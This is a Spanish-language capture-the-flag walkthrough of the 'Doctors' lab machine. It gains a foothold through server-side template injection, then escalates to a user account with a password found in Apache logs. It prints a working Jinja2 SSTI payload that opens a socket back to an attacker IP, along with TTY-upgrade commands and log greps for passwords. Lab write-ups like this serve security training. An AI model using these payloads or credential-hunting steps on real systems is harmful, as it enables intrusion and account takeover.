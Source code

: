 ## Vuln exploit & Gaining Access {-}

### Ganando accesso con SSTI {-}

1. Nos ponemos en escucha por el puerto 443
1. Creamos un nuevo mensaje con el payload

    ```bash
    Title: {% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.7\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
    Content: TEST
    ```

1. Recargamos la url `http://doctors.htb/archive`

Boom... estamos en la maquina victima.

```bash
whoami
#Output
web

hostname -I
```

Somos web y estamos en la maquina victima. Hacemos el tratamiento de la TTY.

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### Userpivoting {-}

```bash
cd /home
grep "$sh" /etc/passwd
cd /root
id
```

Aqui podemos ver que hay usuarios splunk y shaun y que estamos en el grupo `adm`. Podriamos visualisar los logs

```bash
cd /var/log
grep -r -i "pass"
grep -r -i "pass" 2>/dev/null
```

Vemos en el **apache2/backup** que hay una peticion POST para resetear una contraseña `Guitar123`

```bash
su shaun
Password: Guitar123

cat /home/shaun/user.txt
```
